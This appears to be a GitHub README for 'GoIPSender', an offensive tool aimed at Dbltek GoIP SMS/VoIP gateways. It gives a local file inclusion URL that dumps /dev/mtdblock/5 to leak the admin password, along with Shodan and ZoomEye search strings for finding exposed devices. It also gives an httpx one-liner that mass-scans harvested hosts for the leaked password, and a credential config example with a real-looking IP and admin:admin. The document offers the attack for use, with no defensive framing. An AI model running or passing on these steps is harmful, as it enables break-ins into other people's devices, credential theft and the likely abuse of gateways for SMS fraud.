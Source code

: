 # GoIPSender

# Config
``host|user:pass,line``
example: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
### Export results
``zoomeye: /default/en_US/status.html``
<br/>
``shodan: HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
### Check valid targets
```sh
cat exportresults | httpx -mc 200 -s -path "/default/en_US/frame.html?content=/dev/mtdblock/5" -ms "ADMIN_PASSWORD" -t | grep -iEv "(RoIP|Bank)"
```
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)
